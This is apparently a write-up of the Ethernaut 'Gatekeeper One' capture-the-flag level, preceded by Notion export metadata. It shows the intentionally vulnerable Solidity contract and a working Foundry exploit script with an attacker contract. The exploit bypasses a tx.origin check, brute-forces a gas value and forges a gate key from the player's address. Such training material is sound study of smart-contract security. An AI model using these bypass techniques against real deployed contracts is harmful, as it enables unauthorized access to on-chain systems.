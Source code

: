 ```yaml
---
title: "Gatekeeper One"
date: "2024-02-10"
lastmod: "2024-02-23T12:57:00.000Z"
draft: false
difficulty: "⭐⭐⭐⭐"
prev: "Privacy-0141c59931824d74a8311099eb338d5d"
weight: 14
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/13"
next: "Gatekeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "9bbda6ef-a6c2-4367-aa64-3eb73ae92a6a"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-23T12:57:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel13.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "f9c2f40a-0144-4e6d-a134-6b9fd725f7a9"
        name: "⭐⭐⭐⭐"
        color: "red"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Privacy-0141c59931824d74a8311099eb338d5d"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Privacy-0141c59931824d74a8311099eb338d5d"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-10"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 14
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/13"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Gatekeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Gatekeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Gatekeeper One"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Gatekeeper One"
          href: null
  url: "https://www.notion.so/Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
  public_url: null
UPDATE_TIME: "2024-02-23T22:49:57.016Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


title: Gatekeeper One
weight: 13
type: docs
prev: privacy
next: gatekeeper-two


[Level13](https://ethernaut.openzeppelin.com/level/13) - ⭐⭐⭐⭐


---


Make it past the gatekeeper and register as an entrant to pass this level.


### Things that might help:

- Remember what you've learned from the Telephone and Token levels.
- You can learn more about the special function `gasleft()`, in Solidity's documentation (see [here](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [here](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Attacker, GatekeeperOne} from "../src/13.sol";

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address publicKey = vm.envAddress("PUBLIC_KEY");
        address addr = vm.envAddress("INSTANCE_13");

        vm.startBroadcast(deployerPrivateKey);

        GatekeeperOne gate = GatekeeperOne(addr);

        console.log('entrant = %s', gate.entrant());

        Attacker attacker = new Attacker(address(gate));

        // -----
        bytes2 expected = bytes2(uint16(uint160(publicKey)));
        console.logBytes2(expected);
        // -----

        console.logBytes20(bytes20(publicKey));
        bytes8 gateKey = bytes8((uint64((uint160(publicKey) << 6 * 8)) >> 8 * 6) + 0x0100000000000000);

        console.log('entrant = %s', gate.entrant());

        attacker.attack(gateKey);

        console.log('entrant = %s', gate.entrant());
        vm.stopBroadcast();

    }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;
import "forge-std/console.sol";

interface GatekeeperOne {
  function entrant() external returns(address);
  function enter(bytes8 _gateKey) external returns (bool);
}

contract Attacker {
  GatekeeperOne gatekeeper;

  constructor(address _gatekeeper) {
    gatekeeper = GatekeeperOne(_gatekeeper);
  }

  function attack(bytes8 _gateKey) public  {
    gatekeeper.enter{gas: 8191 + 24829}(_gateKey); // 24829 if found through brut force loop simulation (without --broadcast flag we can simulate execution)
  }
}
```

